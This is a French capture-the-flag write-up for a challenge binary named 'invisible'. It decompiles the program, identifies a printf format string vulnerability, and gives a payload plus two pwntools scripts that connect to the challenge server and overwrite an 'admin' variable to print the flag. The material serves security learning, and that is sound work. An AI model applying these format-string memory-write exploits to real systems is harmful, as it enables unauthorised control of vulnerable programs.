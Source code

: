 on regarde le type de fichier `file invisible` (c'est du binaire)
`strings invisble` ne donne rien.
`chmod +x invsible` pour rendre le fichier éxecutable.

**déssemblage sur https://dogbolt.org**

fonction main et print_flag:

``` C
//----- (0000000000401186) ----------------------------------------------------
int print_flag()
{
  return system("cat /home/ecowas/flag");
}

//----- (000000000040119C) ----------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s[140]; // [rsp+10h] [rbp-90h] BYREF
  int v6; // [rsp+9Ch] [rbp-4h]

  v3 = time(0LL);
  srand(v3);
  v6 = rand() % 50;
  memset(s, 0, 0x80uLL);
  fgets(s, 128, stdin);
  printf(s);
  if ( v6 == 27 )
  {
    if ( admin == 200 )
      print_flag();
  }
  else
  {
    printf("Try again");
  }
  return 0;
}
```

donc, pour le défi, quelques faits que nous pouvons lire à partir du binaire :
- pas de PIE, donc toutes les adresses sont fixes, sympa
- la variable admin est à une adresse constante, vous pouvez trouver cela facilement avec un désassembleur ou un décompilateur
- le rng est amorcé avec srand(time(NULL)), ce qui signifie l'heure actuelle en secondes
- cela signifie que chaque seconde vous obtenez une nouvelle valeur aléatoire
- la valeur aléatoire v6 % 50 doit être 27, donc environ toutes les 50 tentatives, elle sera correcte sans que nous fassions quoi que ce soit.
- donc la seule chose que nous devons faire est d'écraser `admin` à `200`.

- *Nous avons trouvé quelque chose d'intéressant: `print(s)` c'est à dire que notre input sera affiché d'abord.* Voyons celà   
<img text="test1" src=/screenshots/test1.png">
Sound interesting ;-) .
Testons le **Format string vulnerability**  [article:](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b):
![[formatstring.png]]
Gooooddddd !!! nous avons des addresses du stack.

- **Allons plus loin**: Où est stocké notre input?
```python
from pwn import *


for i in range(10):
    p = process(["./invisible"])
    p.sendline(f"AAAAAAAA %{i}$lx") # i représente l'argument
    print(i, p.readline(1024))
    p.close()
    print("\n")
```

l'argument 8 afficher notre input en  `hex`:
![[arg8.png]]

Maintenant on cherche l'adresse de la fonction `admin`:
![[adminfunc.png]]

Cherchons notre padding entre le format string et l'addresse:
addresse `%8$n`  commence à l'octet 0
addresse `%9$n` à l'octet 8
addresse `%10$n` à l'octet 16

**Exploitation**
shellcode= `%200c%10$nXXXXXX\x5c\x40\x40\x00\x00\x00\x00\x00`
%200c%10$n : on écrit 200 dans l'argument 10
XXXXXX: ne signifie rien, on peut le remplacer par des espaces ou null bytes
\x5c\x40\x40\x00\x00\x00\x00\x00 : l'adresse de l'admin en `Little endian`

exploit 1: Simple mais il faut taper entrée à chaque fois pour avancer
```python
from pwn import *

for i in range(51):
    r = remote("51.38.37.81", 1234)
    r.sendline(b"%200c%10$nXXXXXX\x5c\x40\x40\x00\x00\x00\x00\x00")
    r.interactive()
```

exploit 2: automatisé
```python
from pwn import *
import sys
import time


context.log_level = "error"

binary = ELF("./invisible")
admin_addr = binary.symbols["admin"]
print(f"&admin = {hex(admin_addr)}")

for i in range(100):
    r =remote("51.38.37.81", 1234) 

    fmtstr = b"%200c%11$n%25$016lx\0\0\0\0\0"
    assert len(fmtstr) == 24
    fmtstr += p64(admin_addr)

    r.sendline(fmtstr)

    data = r.readall()
    data2 = data[200:] # remove garbage
    try:
        rand = int(data2[0:8].decode(), 16)
        text = data2[16:].decode()
        print(f"i = {i}, rand = {rand}, text = {text}")

        if rand == 27:
            print("this should have been the flag, maybe admin isn't correctly overwritten?")
            break
    except Exception:
        print(data) # print whole line, probably flag
        break

    time.sleep(1)
```

THAT'S IT !!!!!!!!!!!!!!!!!!!!!!!!!!!! ;-)
